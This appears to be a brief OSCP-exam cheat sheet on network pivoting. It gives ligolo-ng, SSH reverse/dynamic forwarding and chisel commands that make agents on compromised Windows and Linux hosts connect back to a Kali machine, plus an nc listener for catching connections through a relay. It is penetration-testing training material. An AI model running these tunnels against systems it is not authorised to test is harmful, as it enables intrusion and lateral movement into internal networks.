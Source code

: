 Author: Xinyue   
This version is suitable for the OSCP exam before the update.

# Tunnel

>  https://github.com/nicocha30/ligolo-ng
> 

```jsx
//kali
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:9001
ligolo-ng >> session
ligolo-ng >> start

//win
./agent.exe -connect 192.168.1.1:9001 -ignore-cert
//linux
./agent -connect 192.168.1.1:9001 -ignore-cert

//access internal network
ligolo-ng >> ifconfig
in another terminal : $ sudo ip route add 172.16.1.0/24 dev ligolo

//access localhost
sudo ip route add 240.0.0.1/32 dev ligolo
nmap 240.0.0.1 -sV

//create additional listener
[Agent : FAKE\web_svc@MS01] » listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4445 --tcp
nc -nlvp 4445 //connect
python3 -m http.server 4445 //transfer file
```

ssh

```jsx
systemctl start ssh
//3307 on remote to 3306 kali
ssh -N -R 127.0.0.1:3307:127.0.0.1:3306 kali@192.168.1.1
ssh -N -R 9998 kali@192.168.1.1
// forwards all traffic on port 7777 on the remote server to port 7777 on the local machine (127.0.0.1).
ssh web_svc@192.168.1.1 -D 9090 -R *:7777:127.0.0.1:7777
```

http

```jsx
./chisel server -p 8000 --reverse #kali
.\\chisel.exe client 192.168.1.1:8000 R:8090:localhost:80 #windows
```
